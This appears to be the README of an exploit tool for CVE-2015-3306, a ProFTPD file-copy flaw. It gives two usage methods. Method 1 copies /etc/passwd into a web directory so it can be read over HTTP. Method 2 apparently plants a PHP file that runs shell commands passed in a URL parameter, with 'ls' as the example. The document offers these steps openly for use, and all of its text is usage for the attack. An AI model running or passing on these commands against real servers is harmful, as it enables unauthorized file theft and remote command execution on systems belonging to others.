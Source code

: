 # cpx_proftpd.py (by daldana)

Tool for exploit CVE-2015-3306

METHOD 1:
--------
usage: 
  ```python cpx_proftp.py 1 &lt;IP&gt; &lt;REMOTE_FULLPATH_SRC_FILE&gt; &lt;REMOTE_FULLPATH_DST_FILE&gt;```

ex:
  ```python cpx_proftp.py 1 127.0.0.1 /etc/passwd /var/www/pass.txt```

then try:
  ```http://127.0.0.1/pass.txt```

METHOD 2:
--------

usage: 
  ```python cpx_proftp.py 2 &lt;IP&gt; &lt;REMOTE_FULLPATH_APACHE2&gt;```

ex:
  ```python cpx_proftp.py 2 127.0.0.1 /var/www/html```

then try:
  ```http://127.0.0.1/xxx.php?img=ls```
